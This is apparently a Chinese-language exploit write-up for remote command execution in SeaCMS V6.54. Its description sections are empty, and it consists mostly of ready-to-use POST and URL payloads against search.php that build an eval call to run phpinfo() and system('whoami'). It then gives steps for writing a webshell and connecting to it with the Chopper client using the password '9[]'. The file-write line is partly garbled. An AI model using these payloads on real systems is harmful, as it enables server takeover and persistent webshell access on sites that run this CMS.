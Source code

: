# 海洋 CMS V6.54 命令执行

> 原文：[http://book.iwonder.run/0day/Seacms/海洋 CMS V6.54.html](http://book.iwonder.run/0day/Seacms/海洋 CMS V6.54.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

path:

```
http://0-sec.org/search.php 
```

POST:

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo(); 
```

命令执行 payload

path:

```
http://0-sec.org/search.php 
```

POST:

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("whoami"); 
```

权限足够的话，file_put_concents(“connect.php”,”“)，然后连接菜刀即可

权限不足的话，利用 payload 构造 url：

```
http://0-sec.org/search.php?searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9])) 
```

连接放入菜刀，密码是 9[]

